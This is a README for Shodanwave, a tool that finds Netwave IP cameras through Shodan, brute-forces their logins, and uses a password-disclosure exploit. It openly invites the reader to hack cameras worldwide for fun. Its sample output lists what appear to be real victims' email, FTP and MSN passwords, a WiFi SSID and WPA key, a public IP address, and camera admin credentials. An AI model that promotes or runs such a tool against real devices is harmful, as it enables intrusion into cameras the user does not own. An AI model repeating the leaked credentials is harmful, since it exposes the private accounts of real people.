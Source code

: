# Shodonwave 

Shodanwave is a tool for exploring and obtaining information from cameras specifically Netwave IP Camera. The tool uses a search engine called shodan that makes it easy to search for cameras online but not only that.

Hack network cameras around the world, Very fun!

What does the tool to? Look, a list!

 * Search 
 * Brute force
 * SSID and WPAPSK Password Disclosure
 * E-mail, FTP, DNS, MSN Password Disclosure 
 * Exploit


Here is an example of shodan wave running and showing the full output...

```

Usage: python shodanwave.py -u usernames.txt -w passwords.txt  -k Shodan API key
       python shodanwave.py --help 
         __              __                                   
   _____/ /_  ____  ____/ /___ _____ _      ______ __   _____ 
  / ___/ __ \/ __ \/ __  / __ `/ __ \ | /| / / __ `/ | / / _ \
 (__  ) / / / /_/ / /_/ / /_/ / / / / |/ |/ / /_/ /| |/ /  __/
/____/_/ /_/\____/\__,_/\__,_/_/ /_/|__/|__/\__,_/ |___/\___/ 
                                                              

This tool is successfully connected to shodan service
Information the use of this tool is illegal, not bad.

[+] Shodan successfully Connected.
[+] Shodan Exploit Enabled.
[+] Netwave IP Camera Found: 111307
[+] Passwords loaded: 12
[!] Disable password discovery module? (Yes/no): Yes
[+] Password Found admin@123456
[!] Trying to get more information
[+] Email: basile.antonio@orange.fr:vitaline19
[+] FTP: ftp://basile.an1tonio.perso.sfr.fr:vitalineD519@http://ftpperso.sfr.fr/:21
[+] MSN: camera-rousselin1@hotmail.fr@vitaline19
[!] Getting System Information
[!] Getting Wireless System Information
[+] Mac address found E8ABFA1A9374
[+] Host: http://186.193.55.18:8080
[+] Country: n/a
[+] Organization: Nettel Telecomunicações Ltda.
[+] Product: Netwave IP camera http config
[+] SSID: moslekok
[+] WPAPSK: TulSokanLoptatok
[+] Starting to read memory dump.. this could take a few minutes
[+] CTRL+C to exit..
[+] Binary data: 70560
[+] Strings in binary data found.. password should be around line 10000
[+] Mac address triggered.. printing the following dumps, could leak username and passwords..
[+] Firstline... CAMERA2
[+] Possible username: admin
[+] Possible password: ac00310
[+] Following line.. 

```
### Install Requirements
```
pip install -r /path/to/requirements.txt
```
You need the API key to run. You can get a key free on https://www.shodan.io/

### References:

 * [Shodan API](https://www.shodan.io/)  search engine for Internet-connected devices.
 * [Requests](http://docs.python-requests.org/en/master/) Requests: HTTP for Humans
 * [Netwave Exploit](https://www.exploit-db.com/exploits/41236/) Netwave IP Camera - Password Disclosure
